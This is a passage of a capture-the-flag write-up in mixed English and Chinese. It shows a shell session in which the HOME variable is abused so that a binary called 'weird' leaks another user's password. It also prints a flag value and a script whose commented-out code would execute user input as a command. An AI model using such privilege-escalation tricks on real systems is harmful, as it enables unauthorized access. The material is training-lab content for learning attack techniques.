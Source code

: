 ```bash title="Exploit it"
atalanta@hades:~$ ls -lh /var/lib/me
-r--r----- 1 athena athena 21 Jul 26  2023 /var/lib/me
atalanta@hades:~$ id athena
uid=2006(athena) gid=2006(athena) groups=2006(athena)
atalanta@hades:~$ mkdir /tmp/tessssssssssssssssssssssssst
atalanta@hades:~$ touch /tmp/tessssssssssssssssssssssssst/as
atalanta@hades:~$ export HOME=/tmp/tessssssssssssssssssssssssst/as
atalanta@hades:/pwned/atalanta$ chmod 777 /tmp/tessssssssssssssssssssssssst/as
atalanta@hades:/pwned/atalanta$ ./weird
HOME detected: /tmp/tessssssssssssssssssssssssst/as
atalanta@hades:/pwned/atalanta$ cat /tmp/tessssssssssssssssssssssssst/as
kmQMpZsXgOsnzGReRcoV
```

## User - athena

### flag - 14

```plaintext
^oGwmbNYdtHwJgznZdur^
```

### 任务目标

```plaintext title="mission.txt"
User aura lets us use her new script.
```

### 行动

```plaintext title="ls -lah"
drwxr-x--- 2 root   athena 4.0K Jul 26  2023 .
drwxr-xr-x 1 root   root   4.0K Jul 26  2023 ..
-rw-r--r-- 1 athena athena  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 athena athena 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 athena athena  807 Apr 23  2023 .profile
-rw-r----- 1 root   athena  166 Jul 26  2023 auri_old.sh
-rw-r----- 1 root   athena   22 Jul 26  2023 flagz.txt
-rw-r----- 1 root   athena  160 Jul 26  2023 mission.txt
```

脚本原文

```bash title="auri_old.sh"
#!/bin/bash
echo "What?"
read hackme
#Secure the condition!
#if [[$hackme =~ "????????"]]; then
#exit
#fi
#Add newest Aura pass!
#$hackme AURANEWPASS 2>/dev/null
```
